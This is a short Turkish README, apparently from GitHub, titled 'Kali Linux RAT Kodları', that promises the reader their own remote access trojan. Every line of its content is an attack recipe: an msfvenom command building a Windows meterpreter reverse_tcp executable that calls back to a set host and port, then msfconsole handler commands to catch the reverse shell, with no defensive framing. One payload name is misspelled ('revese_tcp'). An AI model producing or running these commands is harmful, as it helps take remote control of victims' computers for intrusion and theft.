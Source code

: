 ## Kali Linux RAT Kodları
Buradaki kodu Kali Linux terminaline yazdığınızda kendi RAT'ınızı yapabilirsiniz.

Bir terminal açın

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > dosyaadı.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/revese_tcp
set LHOST makineipsi
set LPORT 4444
run

